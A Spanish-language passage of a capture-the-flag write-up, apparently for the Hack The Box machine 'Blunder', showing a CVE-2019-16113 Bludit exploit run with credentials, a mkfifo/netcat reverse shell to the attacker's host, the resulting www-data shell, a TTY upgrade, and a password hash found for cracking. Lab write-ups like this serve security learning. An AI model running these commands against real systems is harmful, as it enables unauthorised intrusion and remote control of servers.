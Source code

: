 Lo siguiente sera mandaremos una reverse shell con la versión antigua de `ntcat` haciendo uso de `mkfifo` a nuestra maquina.

```bash
❯ python3 exploit_bludit.py -u http://10.10.10.191 -user fergus -pass RolandDeschain -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 443 >/tmp/f'


╔╗ ┬  ┬ ┬┌┬┐┬┌┬┐  ╔═╗╦ ╦╔╗╔
╠╩╗│  │ │ │││ │   ╠═╝║║║║║║
╚═╝┴─┘└─┘─┴┘┴ ┴   ╩  ╚╩╝╝╚╝

 CVE-2019-16113 CyberVaca


[+] csrf_token: cc25e735f2604125be5c2142412dbe2253a33fea
[+] cookie: a8c95lrdmos65m0545e9fflgh4
[+] csrf_token: 0f6fc1b9b0455869059adf72375ddcb9cef563bb
[+] Uploading rubnxlev.jpg
[+] Executing command: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 443 >/tmp/f
[+] Delete: .htaccess
[+] Delete: rubnxlev.jpg
```

Y obtenemos acceso como el usuario `www-data`

```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.191.
Ncat: Connection from 10.10.10.191:47166.
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Como de constumbre vamos a otorgarnos una `tty full interactive`.

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ export TERM=xterm
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ export SHELL=bash
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ stty rows 45 columns 184
```

Enumerando el sistema dentro en el directorio `bludit-3-10-0a`, encontramos el archivo `users.php` con un password en hash que podemos tratar de crackear.
